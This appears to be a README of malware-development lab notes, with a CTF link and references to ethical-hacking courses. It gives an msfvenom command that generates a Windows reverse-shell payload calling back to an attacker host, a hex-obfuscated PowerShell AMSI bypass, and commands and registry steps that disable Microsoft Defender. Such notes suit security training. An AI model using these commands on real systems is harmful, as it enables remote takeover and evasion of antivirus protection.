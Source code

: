 # Reverse Engineering

- [CSAWCTFQualificationRound2018/](https://github.com/mohamedaymenkarmous/CTF/tree/master/CSAWCTFQualificationRound2018#a-tour-of-x86---part-1) by mohamedaymenkarmous.


---

# Malware Development

## Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 or 10 VM
- Parrot 


## Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

## Turn off the defender

### Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
![](./Screenshots/02.png)

### Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`
![](./Screenshots/03.png)

### Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
#### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4

### Run Powershell as an administrator
```powershell
Start-Process powershell -Verb runAs

# Run the command prompt

powershell -Command "Start-Process cmd -Verb RunAs"

```

---

# References
- [**Nightmare** - An amazing intro to binary exploitation / reverse engineering course](https://guyinatuxedo.github.io/index.html) by [guyinatuxedo](https://github.com/guyinatuxedo).
- [**CTF Workshops** - About Challenges for Binary Exploitation Workshop](https://github.com/kablaa/CTF-Workshop) by [kablaa](https://github.com/kablaa).
- [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- cocomelonc (Zhassulan Zhussupov) (2021) https://cocomelonc.github.io/ (blog).
- [Medium Tutorial - DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

